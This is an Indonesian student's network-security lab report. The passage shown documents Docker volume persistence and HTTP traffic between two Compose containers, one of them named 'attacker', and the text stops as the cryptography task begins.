# DOKUMENTASI UTAMA HASIL UTS
# KEAMANAN JARINGAN (SECURITY NETWORK) — KASUS 2

## Identitas Praktikum

| Keterangan | Informasi |
|---|---|
| Nama | Insanul Firas |
| NIM | 24552011147 |
| Mata Kuliah | Keamanan Jaringan (Security Network) |
| Jenis Ujian | Ujian Tengah Semester (UTS) Praktik |
| Kasus | Kasus 2 (`k2`) |
| Cakupan | Pertemuan 1–7 |
| Sistem Operasi Host | Windows |
| Terminal | Windows PowerShell |
| Lingkungan Pengujian | Docker Desktop |

## Penentuan Nomor Kasus

Perhitungan nomor kasus berdasarkan NIM:

- NIM: `24552011147`
- Jumlah digit: `2 + 4 + 5 + 5 + 2 + 0 + 1 + 1 + 1 + 4 + 7 = 32`
- Sisa bagi: `32 mod 10 = 2`
- Nomor kasus yang digunakan: **Kasus 2 (`k2`)**

## Daftar Isi

1. [Tugas 1 — Docker dan Volume](#tugas-1-pertemuan-1)
2. [Tugas 2 — Kriptografi](#tugas-2-pertemuan-2)
3. [Tugas 3 — ARP Spoofing](#tugas-3-pertemuan-3)
4. [Tugas 4 — Analisis Handshake WPA2](#tugas-4-pertemuan-4)
5. [Tugas 5 — ICMP dengan Scapy](#tugas-5-pertemuan-5)
6. [Tugas 6 — SYN Flood dan TCP Three-Way Handshake](#tugas-6-pertemuan-6)
7. [Tugas 7 — DNS Exfiltration](#tugas-7-pertemuan-7)

## Petunjuk Dokumentasi

Dokumen ini menggabungkan seluruh laporan Tugas 1 sampai Tugas 7. Setiap tugas tetap memiliki file `hasil.md` tersendiri di dalam folder masing-masing. Screenshot pada dokumen gabungan diarahkan ke folder `tugasN/screenshot/` agar gambar tetap dapat ditampilkan dari lokasi file `jawaban.md`.

Dokumentasi dibuat berdasarkan output terminal, file, dan screenshot yang terdapat dalam repository. Apabila suatu hasil belum terlihat secara eksplisit pada bukti, laporan membatasi kesimpulan pada hal yang benar-benar dapat diamati.

---


---

<!-- Dokumentasi lengkap Tugas 1; sumber: tugas1/hasil.md -->

# HASIL TUGAS 1 (PERTEMUAN 1)
# DOCKER DAN VOLUME — KASUS 2 (K2)

## IDENTITAS DAN PARAMETER PENGUJIAN

| Keterangan | Informasi |
|---|---|
| Nama | Insanul Firas |
| NIM | 24552011147 |
| Mata Kuliah | Keamanan Jaringan (Security Network) |
| Pertemuan | Pertemuan 1 |
| Tugas | Docker dan Volume |
| Kasus | Kasus 2 (`k2`) |
| Sistem Operasi Host | Windows |
| Terminal | Windows PowerShell |
| Lingkungan Pengujian | Docker Desktop |
| Docker Image | `alpine`, `nginx:alpine` |
| Docker Compose Project | `k2` |
| Nama Docker Volume | `vol-k2` |
| Nama Container | `w-k2`, `k2-target-1`, `k2-attacker-1` |

---

# 1. PENDAHULUAN

## 1.1 Latar Belakang

Docker merupakan platform yang digunakan untuk menjalankan aplikasi di dalam lingkungan terisolasi yang disebut container. Dengan menggunakan Docker, aplikasi dapat dijalankan tanpa harus melakukan instalasi seluruh dependensi secara langsung pada sistem operasi utama.

Dalam pengelolaan container, terdapat beberapa konsep penting yang perlu dipahami, salah satunya adalah Docker Volume. Docker Volume digunakan untuk menyimpan data secara persisten sehingga data tidak hilang ketika container dihentikan atau dihapus.

Selain Docker Volume, Docker Compose juga memiliki peran penting dalam pengelolaan beberapa container sekaligus. Docker Compose memungkinkan pengguna mendefinisikan layanan, jaringan, serta konfigurasi container melalui sebuah file YAML.

Pada praktikum ini dilakukan dua pengujian utama. Pengujian pertama bertujuan untuk membuktikan bahwa data yang disimpan menggunakan Docker Volume tetap tersedia meskipun container pembuatnya telah dihapus.

Pengujian kedua bertujuan untuk menjalankan komunikasi antarkontainer menggunakan Docker Compose. Dalam simulasi ini digunakan dua layanan, yaitu container target yang menjalankan Nginx dan container attacker yang bertugas mengakses layanan web pada container target.

Melalui kedua pengujian tersebut, dapat dipahami bagaimana Docker mengelola penyimpanan data, container, jaringan internal, serta komunikasi antarlayanan.

## 1.2 Tujuan Praktikum

Adapun tujuan dari praktikum ini adalah:

1. Memahami konsep dasar Docker dan container.
2. Memahami fungsi Docker Volume sebagai media penyimpanan persisten.
3. Membuat dan menggunakan Docker Volume.
4. Membuktikan bahwa data tetap tersimpan setelah container dihapus.
5. Memahami penggunaan Docker Compose untuk menjalankan beberapa container.
6. Mengetahui cara kerja komunikasi antarkontainer melalui jaringan internal Docker.
7. Memahami fungsi container sebagai server dan client dalam simulasi jaringan.
8. Menguji konektivitas HTTP menggunakan perintah `wget`.
9. Memahami proses pembuatan dan penghapusan container serta network menggunakan Docker Compose.

## 1.3 Dasar Teori

### A. Docker

Docker merupakan platform containerization yang memungkinkan aplikasi dijalankan dalam lingkungan terisolasi.

Container menggunakan image sebagai dasar untuk menjalankan aplikasi beserta dependensinya.

Berbeda dengan virtual machine yang membutuhkan sistem operasi tersendiri, container menggunakan kernel dari sistem operasi host melalui mekanisme isolasi.

Beberapa komponen utama Docker adalah:

- **Docker Image:** template yang digunakan untuk membuat container.
- **Docker Container:** instance yang berjalan berdasarkan Docker Image.
- **Docker Volume:** media penyimpanan data persisten.
- **Docker Network:** jaringan yang menghubungkan container.
- **Docker Compose:** alat untuk mengelola beberapa container melalui konfigurasi YAML.

### B. Docker Container

Container merupakan lingkungan eksekusi aplikasi yang bersifat terisolasi.

Container dapat dibuat, dijalankan, dihentikan, dan dihapus sesuai kebutuhan.

Pada praktikum ini digunakan container berbasis image Alpine dan Nginx.

Image Alpine dipilih karena memiliki ukuran yang relatif kecil dan cocok digunakan untuk pengujian sederhana.

Sementara itu, Nginx digunakan sebagai web server untuk menyediakan halaman HTTP yang dapat diakses oleh container lain.

### C. Docker Volume

Docker Volume merupakan mekanisme penyimpanan data yang dikelola oleh Docker dan memiliki siklus hidup terpisah dari container.

Secara umum, data yang hanya disimpan pada filesystem internal container dapat hilang ketika container dihapus.

Namun, apabila data disimpan pada Docker Volume, data tersebut tetap tersedia meskipun container yang menggunakannya sudah dihapus.

Keuntungan penggunaan Docker Volume antara lain:

1. Menyimpan data secara persisten.
2. Memungkinkan data digunakan oleh container yang berbeda.
3. Memisahkan penyimpanan data dari siklus hidup container.
4. Mempermudah proses pencadangan dan pemulihan data.
5. Memungkinkan beberapa container mengakses penyimpanan yang sama.

### D. Docker Compose

Docker Compose merupakan alat untuk mendefinisikan dan menjalankan aplikasi yang terdiri dari beberapa container.

Konfigurasi Docker Compose disimpan dalam file YAML, biasanya menggunakan nama `docker-compose.yml`.

Melalui satu file konfigurasi, pengguna dapat menentukan:

- Nama dan image container.
- Layanan yang dijalankan.
- Network yang digunakan.
- Port dan konfigurasi komunikasi.
- Volume penyimpanan.
- Ketergantungan antarlayanan.

Pada praktikum ini Docker Compose digunakan untuk menjalankan container target dan attacker dalam satu jaringan internal.

### E. Docker Network

Docker Network merupakan mekanisme yang memungkinkan container saling berkomunikasi.

Container yang berada dalam jaringan Docker yang sama dapat mengakses layanan container lainnya menggunakan nama layanan atau nama container sesuai konfigurasi jaringan.

Pada praktikum ini, komunikasi dilakukan antara container attacker dan target menggunakan alamat:

```text
http://target
```

Nama `target` digunakan sebagai hostname yang dapat dikenali melalui DNS internal Docker Compose.

### F. HTTP dan Nginx

HTTP (Hypertext Transfer Protocol) merupakan protokol komunikasi yang digunakan untuk pertukaran data antara client dan server web.

Nginx merupakan web server yang dapat digunakan untuk menyajikan halaman web melalui protokol HTTP.

Dalam praktikum ini, Nginx dijalankan pada container target.

Container attacker bertindak sebagai client yang melakukan permintaan HTTP menggunakan perintah `wget`.

Apabila komunikasi berhasil, server akan mengirimkan respons berupa halaman HTML.

---

# 2. PERSIAPAN LINGKUNGAN PENGUJIAN

## 2.1 Tools yang Digunakan

| Tools | Fungsi |
|---|---|
| Windows PowerShell | Menjalankan perintah Docker |
| Docker Desktop | Menjalankan dan mengelola container |
| Docker Engine | Menjalankan container dan mengelola resource Docker |
| Alpine Linux | Image ringan untuk pengujian Docker Volume |
| Nginx Alpine | Web server pada container target |
| Docker Compose | Mengelola beberapa container |
| wget | Menguji komunikasi HTTP antarkontainer |

## 2.2 Lingkungan Pengujian

Seluruh pengujian dilakukan pada komputer lokal menggunakan Windows PowerShell dan Docker Desktop.

Docker digunakan untuk menjalankan container yang diperlukan tanpa melakukan instalasi layanan secara langsung pada sistem operasi utama.

Terdapat dua skenario pengujian:

1. Pengujian persistensi data menggunakan Docker Volume.
2. Pengujian komunikasi antarkontainer menggunakan Docker Compose.

## 2.3 Parameter Pengujian

Berikut parameter yang digunakan dalam praktikum:

| Parameter | Nilai |
|---|---|
| Docker Volume | `vol-k2` |
| Container Penyimpanan | `w-k2` |
| File yang Disimpan | `laporan-k2.txt` |
| Isi File | `24552011147` |
| Direktori Mount | `/data` |
| Image Penyimpanan | `alpine` |
| Docker Compose Project | `k2` |
| Compose File | `b/b1-compose/docker-compose.yml` |
| Container Target | `k2-target-1` |
| Container Attacker | `k2-attacker-1` |
| Web Server | Nginx |
| Protokol Pengujian | HTTP |

---

# 3. PENGUJIAN DOCKER VOLUME

## 3.1 Tujuan Pengujian

Pengujian pertama bertujuan untuk membuktikan bahwa Docker Volume mampu mempertahankan data meskipun container yang membuat data tersebut telah dihapus.

Pada pengujian ini dibuat sebuah Docker Volume dengan nama `vol-k2`.

Selanjutnya, sebuah container Alpine digunakan untuk membuat file bernama `laporan-k2.txt` di dalam direktori `/data` yang telah dihubungkan dengan Docker Volume.

Setelah file berhasil dibuat, container pertama dihapus.

Pengujian kemudian dilanjutkan dengan membuat container Alpine baru untuk membaca kembali file yang sebelumnya disimpan.

Apabila isi file masih dapat dibaca, berarti Docker Volume berhasil mempertahankan data di luar siklus hidup container.

## 3.2 Tahap Pertama: Membuat Docker Volume

Perintah yang digunakan:

```powershell
docker volume create vol-k2
```

Penjelasan perintah:

| Parameter | Fungsi |
|---|---|
| `docker volume` | Mengelola Docker Volume |
| `create` | Membuat volume baru |
| `vol-k2` | Nama volume yang dibuat |

Hasil eksekusi:

```text
vol-k2
```

Output tersebut menunjukkan bahwa Docker berhasil membuat volume dengan nama `vol-k2`.

Volume ini nantinya digunakan sebagai media penyimpanan data yang terpisah dari filesystem container.

## 3.3 Tahap Kedua: Membuat Container dan Menyimpan Data

Setelah Docker Volume berhasil dibuat, langkah berikutnya adalah menjalankan container Alpine untuk membuat file pada volume tersebut.

Perintah yang digunakan:

```powershell
docker run --name w-k2 -v vol-k2:/data alpine sh -c 'echo 24552011147 > /data/laporan-k2.txt'
```

Penjelasan perintah:

| Parameter | Fungsi |
|---|---|
| `docker run` | Membuat dan menjalankan container |
| `--name w-k2` | Memberikan nama container `w-k2` |
| `-v vol-k2:/data` | Menghubungkan volume `vol-k2` ke direktori `/data` |
| `alpine` | Menggunakan image Alpine Linux |
| `sh -c` | Menjalankan perintah melalui shell |
| `echo 24552011147` | Menuliskan NIM ke dalam file |
| `>` | Mengarahkan output ke file |
| `/data/laporan-k2.txt` | Lokasi file yang disimpan pada volume |

Perintah tersebut menghasilkan file:

```text
laporan-k2.txt
```

Dengan isi:

```text
24552011147
```

File tersebut disimpan di dalam direktori `/data`, yang telah terhubung dengan Docker Volume `vol-k2`.

Oleh karena itu, data tidak hanya tersimpan pada filesystem internal container, melainkan pada volume yang dikelola oleh Docker.

## 3.4 Tahap Ketiga: Menghapus Container Pertama

Setelah file berhasil dibuat, container `w-k2` dihapus menggunakan perintah:

```powershell
docker rm w-k2
```

Penjelasan:

- `docker rm` digunakan untuk menghapus container.
- `w-k2` merupakan nama container yang akan dihapus.

Hasil eksekusi:

```text
w-k2
```

Output tersebut menunjukkan bahwa container `w-k2` berhasil dihapus.

Pada tahap ini, container yang sebelumnya membuat file sudah tidak tersedia.

Namun, Docker Volume `vol-k2` tidak ikut terhapus karena volume memiliki siklus hidup tersendiri dan tidak otomatis dihapus ketika container biasa dihapus menggunakan `docker rm`.

## 3.5 Tahap Keempat: Membaca Data Menggunakan Container Baru

Setelah container pertama dihapus, dilakukan pengujian untuk memastikan apakah data masih tersedia.

Perintah yang digunakan:

```powershell
docker run --rm -v vol-k2:/data alpine cat /data/laporan-k2.txt
```

Penjelasan perintah:

| Parameter | Fungsi |
|---|---|
| `docker run` | Membuat dan menjalankan container baru |
| `--rm` | Menghapus container setelah perintah selesai |
| `-v vol-k2:/data` | Menghubungkan kembali volume `vol-k2` ke direktori `/data` |
| `alpine` | Menggunakan image Alpine Linux |
| `cat` | Membaca isi file |
| `/data/laporan-k2.txt` | Lokasi file yang akan dibaca |

Hasil eksekusi:

```text
24552011147
```

Output tersebut menunjukkan bahwa file `laporan-k2.txt` masih dapat dibaca menggunakan container baru meskipun container `w-k2` sebelumnya sudah dihapus.

Hal ini membuktikan bahwa data berhasil dipertahankan oleh Docker Volume.

## 3.6 Hasil Pengujian Docker Volume

Berdasarkan seluruh tahapan yang telah dilakukan, diperoleh hasil berikut:

| Tahapan | Hasil |
|---|---|
| Membuat volume `vol-k2` | Berhasil |
| Membuat container `w-k2` | Berhasil |
| Menyimpan file `laporan-k2.txt` | Berhasil |
| Mengisi file dengan NIM | Berhasil |
| Menghapus container `w-k2` | Berhasil |
| Membuat container baru | Berhasil |
| Membaca file dari volume | Berhasil |
| Data tetap tersedia | Ya |

Isi file yang berhasil dibaca kembali:

```text
24552011147
```

## 3.7 Analisis Hasil Docker Volume

Berdasarkan hasil pengujian, Docker Volume berhasil mempertahankan data meskipun container yang digunakan untuk membuat data tersebut telah dihapus.

Pada tahap awal, file `laporan-k2.txt` dibuat di dalam container `w-k2` dan disimpan pada direktori `/data`.

Direktori tersebut telah dihubungkan dengan Docker Volume `vol-k2` menggunakan parameter `-v`.

Setelah container `w-k2` dihapus, dilakukan pengujian menggunakan container Alpine baru.

Container baru tersebut menghubungkan kembali volume yang sama dan membaca file menggunakan perintah `cat`.

Hasilnya menunjukkan bahwa isi file masih tersedia dan menampilkan NIM:

```text
24552011147
```

Hal ini menunjukkan bahwa Docker Volume tidak bergantung pada keberadaan container yang pertama kali membuat data.

Dengan demikian, fungsi persistensi penyimpanan pada Docker Volume berhasil dibuktikan.

Pengujian ini juga menunjukkan bahwa Docker Volume dapat digunakan untuk menyimpan data penting seperti dokumen, database, konfigurasi, dan file aplikasi yang perlu dipertahankan meskipun container dihentikan atau diganti.

## 3.8 Dokumentasi Screenshot Docker Volume



**Gambar 1.** Proses pembuatan Docker Volume `vol-k2`, penyimpanan file `laporan-k2.txt` menggunakan container `w-k2`, penghapusan container pertama, serta pembacaan kembali file menggunakan container Alpine baru.

Screenshot tersebut menunjukkan bahwa data dengan isi `24552011147` tetap tersedia setelah container pembuatnya dihapus.

---

# 4. PENGUJIAN DOCKER COMPOSE DAN KOMUNIKASI ANTARKONTAINER

## 4.1 Tujuan Pengujian

Pengujian kedua bertujuan untuk memahami penggunaan Docker Compose dalam menjalankan beberapa container yang saling terhubung melalui jaringan internal Docker.

Pada pengujian ini digunakan dua layanan utama, yaitu:

1. **Target:** container yang menjalankan web server Nginx.
2. **Attacker:** container yang bertindak sebagai client untuk mengakses layanan HTTP pada target.

Kedua container dijalankan melalui file konfigurasi Docker Compose.

Selanjutnya, dilakukan pengujian komunikasi HTTP menggunakan perintah `wget` dari container attacker menuju container target.

Keberhasilan pengujian ditandai dengan diterimanya halaman HTML default dari Nginx.

## 4.2 Konfigurasi Docker Compose

File konfigurasi yang digunakan:

```text
b/b1-compose/docker-compose.yml
```

Docker Compose digunakan untuk mendefinisikan layanan container target dan attacker beserta jaringan yang digunakan.

Dalam pengujian ini, kedua container dijalankan dalam satu proyek Docker Compose dengan nama proyek `k2`.

Nama layanan `target` digunakan sebagai alamat tujuan komunikasi dari container attacker.

## 4.3 Tahap Pertama: Menjalankan Docker Compose

Perintah yang digunakan:

```powershell
docker compose -p k2 -f b/b1-compose/docker-compose.yml up -d
```

Penjelasan perintah:

| Parameter | Fungsi |
|---|---|
| `docker compose` | Menjalankan pengelolaan container menggunakan Docker Compose |
| `-p k2` | Menentukan nama proyek Docker Compose |
| `-f` | Menentukan file konfigurasi Compose |
| `b/b1-compose/docker-compose.yml` | Lokasi file konfigurasi |
| `up` | Membuat dan menjalankan layanan |
| `-d` | Menjalankan container di background |

Berdasarkan hasil eksekusi, diperoleh output:

```text
[+] up 13/13

Image nginx:alpine Pulled
Network k2_lab Created
Container k2-target-1 Started
Container k2-attacker-1 Started
```

Hasil tersebut menunjukkan bahwa:

1. Image `nginx:alpine` berhasil diunduh.
2. Network `k2_lab` berhasil dibuat.
3. Container `k2-target-1` berhasil dijalankan.
4. Container `k2-attacker-1` berhasil dijalankan.

Dengan demikian, lingkungan pengujian Docker Compose berhasil dibuat dan kedua layanan telah berjalan.

## 4.4 Tahap Kedua: Mengakses Web Server dari Container Attacker

Setelah kedua container berhasil dijalankan, dilakukan pengujian komunikasi HTTP dari container attacker menuju container target.

Perintah yang digunakan:

```powershell
docker compose -p k2 -f b/b1-compose/docker-compose.yml exec attacker wget -qO- http://target
```

Penjelasan perintah:

| Parameter | Fungsi |
|---|---|
| `docker compose` | Menjalankan perintah melalui Docker Compose |
| `-p k2` | Menggunakan proyek Compose bernama `k2` |
| `-f` | Menentukan file konfigurasi Compose |
| `exec` | Menjalankan perintah pada container yang sedang berjalan |
| `attacker` | Menentukan layanan yang menjalankan perintah |
| `wget` | Mengirim permintaan HTTP ke server tujuan |
| `-q` | Menjalankan wget dalam mode quiet |
| `-O-` | Menampilkan hasil respons langsung ke terminal |
| `http://target` | Alamat layanan web yang diakses |

Pada tahap ini, container attacker mengirimkan permintaan HTTP menuju layanan `target`.

Nama `target` digunakan sebagai hostname internal Docker Compose sehingga tidak perlu menuliskan alamat IP container secara manual.

Apabila DNS internal Docker berhasil melakukan resolusi nama, container attacker dapat menemukan layanan target dan mengirimkan permintaan HTTP.

## 4.5 Hasil Pengujian Komunikasi HTTP

Berdasarkan hasil eksekusi, container attacker berhasil memperoleh respons HTML dari web server Nginx.

Bagian output yang diperoleh:

```html
<!DOCTYPE html>
<html>
<head>
<title>Welcome to nginx!</title>
<style>
html { color-scheme: light dark; }
body { width: 35em; margin: 0 auto;
font-family: Tahoma, Verdana, Arial, sans-serif; }
</style>
</head>
<body>
<h1>Welcome to nginx!</h1>
<p>If you see this page, nginx is successfully installed and working.
Further configuration is required for the web server, reverse proxy,
API gateway, load balancer, content cache, or other features.</p>
</body>
</html>
```

Output tersebut merupakan halaman HTML default dari Nginx.

Bagian penting yang menunjukkan keberhasilan pengujian adalah:

```html
<h1>Welcome to nginx!</h1>
```

Pesan tersebut menunjukkan bahwa permintaan HTTP dari container attacker berhasil mencapai web server Nginx pada container target dan mendapatkan respons berupa halaman HTML.

Dengan demikian, komunikasi antara kedua container berhasil dilakukan melalui jaringan internal Docker.

## 4.6 Analisis Komunikasi Antarkontainer

Berdasarkan hasil pengujian, Docker Compose berhasil menjalankan dua container yang memiliki peran berbeda dalam simulasi jaringan.

Container target menjalankan Nginx sebagai web server yang menyediakan layanan HTTP.

Sementara itu, container attacker menjalankan perintah `wget` untuk mengakses layanan web yang tersedia pada container target.

Komunikasi dilakukan menggunakan alamat:

```text
http://target
```

Penggunaan hostname `target` menunjukkan bahwa Docker Compose menyediakan mekanisme resolusi nama layanan melalui DNS internal pada jaringan yang sama.

Dengan mekanisme tersebut, container tidak harus mengetahui alamat IP tujuan secara langsung.

Setelah permintaan dikirimkan, Nginx memberikan respons berupa halaman HTML default.

Hal ini membuktikan bahwa:

1. Container attacker berhasil berkomunikasi dengan container target.
2. DNS internal Docker berhasil mengenali hostname `target`.
3. Web server Nginx berjalan dan dapat diakses.
4. Permintaan HTTP berhasil diproses oleh layanan target.
5. Jaringan internal Docker Compose berfungsi dengan baik.

## 4.7 Tahap Ketiga: Menghentikan dan Membersihkan Lingkungan Pengujian

Setelah pengujian komunikasi berhasil dilakukan, seluruh resource Docker Compose dibersihkan menggunakan perintah:

```powershell
docker compose -p k2 -f b/b1-compose/docker-compose.yml down -v
```

Penjelasan perintah:

| Parameter | Fungsi |
|---|---|
| `docker compose` | Mengelola layanan Docker Compose |
| `-p k2` | Menentukan proyek yang akan dihentikan |
| `-f` | Menentukan file konfigurasi Compose |
| `down` | Menghentikan dan menghapus container serta network proyek |
| `-v` | Menghapus volume yang dikelola oleh konfigurasi Compose |

Berdasarkan hasil eksekusi, diperoleh output:

```text
[+] down 3/3

Container k2-target-1 Removed
Container k2-attacker-1 Removed
Network k2_lab Removed
```

Hasil tersebut menunjukkan bahwa kedua container dan jaringan internal berhasil dihapus.

Pembersihan dilakukan agar resource yang digunakan selama praktikum tidak terus berjalan setelah pengujian selesai.

**Catatan:** Perintah `down -v` membersihkan volume yang dikelola oleh proyek Compose. Docker Volume eksternal `vol-k2` yang dibuat pada pengujian pertama tidak otomatis terhapus oleh perintah ini karena merupakan volume terpisah yang dibuat secara manual.

## 4.8 Hasil Pengujian Docker Compose

Berikut rangkuman hasil pengujian komunikasi antarkontainer:

| Tahapan | Hasil |
|---|---|
| Menjalankan Docker Compose | Berhasil |
| Mengunduh image `nginx:alpine` | Berhasil |
| Membuat network `k2_lab` | Berhasil |
| Menjalankan container target | Berhasil |
| Menjalankan container attacker | Berhasil |
| Mengakses `http://target` | Berhasil |
| Menerima respons HTML Nginx | Berhasil |
| Menghentikan container | Berhasil |
| Menghapus network | Berhasil |

## 4.9 Dokumentasi Screenshot Docker Compose



**Gambar 2.** Proses menjalankan Docker Compose, pembuatan jaringan internal `k2_lab`, menjalankan container target dan attacker, serta pengujian komunikasi HTTP menggunakan `wget`.

Screenshot menunjukkan bahwa container attacker berhasil mendapatkan halaman HTML default dari Nginx yang berjalan pada container target.

Selain itu, terlihat proses pembersihan container dan network menggunakan perintah `docker compose down -v`.

---

# 5. ANALISIS KESELURUHAN PRAKTIKUM

## 5.1 Rekapitulasi Hasil Pengujian

Berdasarkan seluruh tahapan praktikum, diperoleh hasil sebagai berikut:

| No. | Pengujian | Hasil |
|---|---|---|
| 1 | Membuat Docker Volume `vol-k2` | Berhasil |
| 2 | Membuat container Alpine `w-k2` | Berhasil |
| 3 | Menyimpan file `laporan-k2.txt` | Berhasil |
| 4 | Menghapus container pembuat file | Berhasil |
| 5 | Membaca kembali file menggunakan container baru | Berhasil |
| 6 | Membuktikan persistensi data | Berhasil |
| 7 | Menjalankan Docker Compose | Berhasil |
| 8 | Membuat jaringan internal `k2_lab` | Berhasil |
| 9 | Menjalankan container target dan attacker | Berhasil |
| 10 | Mengakses layanan HTTP menggunakan `wget` | Berhasil |
| 11 | Menerima halaman HTML dari Nginx | Berhasil |
| 12 | Membersihkan container dan network | Berhasil |

## 5.2 Perbandingan Kedua Pengujian

Praktikum ini memiliki dua fokus utama yang berbeda, yaitu pengelolaan penyimpanan dan komunikasi jaringan antarkontainer.

| Aspek | Docker Volume | Docker Compose |
|---|---|---|
| Tujuan | Menyimpan data secara persisten | Mengelola beberapa container |
| Komponen Utama | Docker Volume | Container dan Docker Network |
| Resource | `vol-k2` | `k2_lab` |
| Container | `w-k2` dan container Alpine baru | `k2-target-1` dan `k2-attacker-1` |
| Pengujian | Membuat dan membaca file | Mengakses layanan HTTP |
| Hasil | Data tetap tersedia setelah container dihapus | Komunikasi HTTP berhasil |
| Bukti | Isi file `24552011147` | Halaman HTML Nginx |

## 5.3 Analisis Penerapan Docker dalam Keamanan Jaringan

Berdasarkan praktikum yang telah dilakukan, Docker memiliki peran penting dalam menyediakan lingkungan pengujian yang terisolasi.

Melalui Docker Volume, data dapat dipisahkan dari siklus hidup container sehingga informasi penting tetap tersedia meskipun container mengalami penghapusan atau penggantian.

Sementara itu, Docker Compose memungkinkan beberapa layanan dijalankan dalam satu lingkungan jaringan yang terorganisasi.

Dalam simulasi ini, container attacker dan target dapat berkomunikasi melalui jaringan internal menggunakan hostname layanan.

Pengujian HTTP membuktikan bahwa komunikasi tersebut berhasil dilakukan tanpa perlu mengakses alamat IP container secara manual.

Dari sudut pandang keamanan jaringan, kemampuan mengisolasi container dan mengatur komunikasi antarlayanan merupakan hal penting.

Pengelolaan network dapat digunakan untuk membatasi komunikasi hanya pada layanan yang diperlukan, sedangkan pengelolaan volume membantu menjaga data agar tidak bergantung pada keberadaan container tertentu.

Namun, penggunaan Docker tidak secara otomatis menjamin keamanan seluruh layanan. Pengaturan hak akses, konfigurasi jaringan, pengelolaan data sensitif, dan pembatasan komunikasi tetap diperlukan.

---

# 6. KESIMPULAN

Berdasarkan pelaksanaan Tugas 1 (Pertemuan 1) mengenai Docker dan Volume pada Kasus 2 (`k2`), dapat disimpulkan bahwa seluruh tahapan praktikum berhasil dilakukan menggunakan Docker Desktop.

Pada pengujian pertama, Docker Volume dengan nama `vol-k2` berhasil dibuat dan digunakan sebagai media penyimpanan file `laporan-k2.txt`.

File tersebut diisi dengan NIM `24552011147` melalui container Alpine bernama `w-k2`.

Setelah container pertama dihapus, dilakukan pengujian menggunakan container Alpine baru untuk membaca kembali file yang telah disimpan.

Hasilnya menunjukkan bahwa isi file tetap tersedia dan dapat dibaca dengan benar.

Hal ini membuktikan bahwa Docker Volume mampu mempertahankan data meskipun container yang sebelumnya digunakan untuk membuat data telah dihapus.

Pada pengujian kedua, Docker Compose berhasil digunakan untuk menjalankan container target dan attacker dalam satu jaringan internal bernama `k2_lab`.

Container target menjalankan web server Nginx, sedangkan container attacker digunakan untuk mengirimkan permintaan HTTP menggunakan perintah `wget`.

Hasil pengujian menunjukkan bahwa attacker berhasil mengakses layanan `http://target` dan menerima respons berupa halaman HTML default Nginx.

Hal tersebut membuktikan bahwa komunikasi antarkontainer melalui jaringan internal Docker Compose berhasil dilakukan.

Secara keseluruhan, praktikum ini memberikan pemahaman mengenai dua konsep penting dalam Docker, yaitu persistensi data menggunakan Docker Volume dan komunikasi antarkontainer menggunakan Docker Compose.

Kedua konsep tersebut memiliki peran penting dalam pengelolaan aplikasi berbasis container, baik dari sisi penyimpanan data maupun komunikasi jaringan.

---

# 7. LAMPIRAN DAN DOKUMENTASI

## 7.1 Daftar File dan Resource Pengujian

| No. | Nama | Keterangan |
|---|---|---|
| 1 | `vol-k2` | Docker Volume untuk penyimpanan persisten |
| 2 | `w-k2` | Container Alpine pembuat file |
| 3 | `laporan-k2.txt` | File yang berisi NIM |
| 4 | `b/b1-compose/docker-compose.yml` | File konfigurasi Docker Compose |
| 5 | `k2-target-1` | Container web server Nginx |
| 6 | `k2-attacker-1` | Container penguji komunikasi HTTP |
| 7 | `k2_lab` | Network internal Docker Compose |

## 7.2 Daftar Screenshot

| No. | Nama Screenshot | Keterangan |
|---|---|---|
| 1 | `01.png` | Bukti pembuatan volume, penyimpanan file, penghapusan container, dan pembacaan kembali data |
| 2 | `02.png` | Bukti menjalankan Docker Compose, komunikasi HTTP, dan pembersihan container |

## 7.3 Dokumentasi Screenshot

### A. Pengujian Docker Volume


**Gambar 1.** Dokumentasi pengujian Docker Volume. Proses dimulai dari pembuatan volume `vol-k2`, penyimpanan NIM ke dalam file `laporan-k2.txt`, penghapusan container `w-k2`, hingga pembacaan kembali file menggunakan container baru.

Hasil pengujian memperlihatkan bahwa data tetap tersimpan meskipun container pembuatnya sudah dihapus.

### B. Pengujian Docker Compose dan Komunikasi HTTP


**Gambar 2.** Dokumentasi pengujian Docker Compose. Screenshot memperlihatkan proses pembuatan network, menjalankan container target dan attacker, mengakses web server Nginx melalui HTTP, serta membersihkan resource setelah pengujian selesai.

Hasil pengujian memperlihatkan bahwa container attacker berhasil mendapatkan halaman HTML dari web server Nginx pada container target.

---

<!-- Dokumentasi lengkap Tugas 2; sumber: tugas2/hasil.md -->

# HASIL TUGAS 2 (PERTEMUAN 2)
# KRIPTOGRAFI — KASUS 2 (K2)

## IDENTITAS DAN PARAMETER PENGUJIAN

| Keterangan | Informasi |
|---|---|
| Nama | Insanul Firas |
| NIM | 24552011147 |
| Mata Kuliah | Keamanan Jaringan (Security Network) |
